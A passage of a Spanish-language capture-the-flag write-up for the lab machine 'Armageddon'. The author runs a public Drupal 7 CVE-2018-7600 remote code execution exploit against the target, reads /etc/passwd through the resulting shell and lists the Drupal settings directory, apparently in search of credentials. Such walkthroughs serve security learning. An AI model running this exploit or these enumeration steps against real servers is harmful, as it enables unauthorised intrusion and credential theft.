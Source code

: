 **(** 

Usando el otro exploit logramos ver que servicios hay localmente, ya que el de Ruby nos da `TimeOut` :(

```bash
❭ python3 CVE-2018-7600/drupa7-CVE-2018-7600.py http://10.10.10.233 -c "netstat -a"

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
form--zYYkruK6jQ12BhgbrJrxrrszD0nEpeEs_2BURlHjsg
[*] Poisoned form ID: form--zYYkruK6jQ12BhgbrJrxrrszD0nEpeEs_2BURlHjsg
[*] Triggering exploit to execute: netstat -a

Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 localhost:smtp          0.0.0.0:*               LISTEN
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN
...
```

**)**

Pero no nos enfocaremos en esto, sigamos enumerando...

No tenemos permisos para listar el directorio `/home`, pero podemos ver el archivo `/etc/passwd` y así saber que usuarios hay en el sistema:

```bash
armageddon.htb>> cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
...
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
```

Perfecto, simplemente tenemos al usuario `brucetherealadmin` siendo relevante (que de ahora en adelante le diremos `bruce` :P), así que entiendo que debemos pivotear a él...

Dándole vueltas a los archivos que tenemos en el directorio `/var/www/html` nos encontramos uno con contenido llamativo:

```bash
armageddon.htb>> ls -la sites
total 12
drwxr-xr-x. 4 apache apache   75 Jun 21  2017 .
drwxr-xr-x. 9 apache apache 4096 Apr  1 01:35 ..
-rw-r--r--. 1 apache apache  904 Jun 21  2017 README.txt
drwxr-xr-x. 5 apache apache   52 Jun 21  2017 all
dr-xr-xr-x. 3 apache apache   67 Dec  3 12:30 default
-rw-r--r--. 1 apache apache 2365 Jun 21  2017 example.sites.php
armageddon.htb>> ls -la sites/default
total 56
dr-xr-xr-x. 3 apache apache    67 Dec  3 12:30 .
drwxr-xr-x. 4 apache apache    75 Jun 21  2017 ..
-rw-r--r--. 1 apache apache 26250 Jun 21  2017 default.settings.php
drwxrwxr-x. 3 apache apache    37 Dec  3 12:32 files
-r--r--r--. 1 apache apache 26565 Dec  3 12:32 settings.php
```
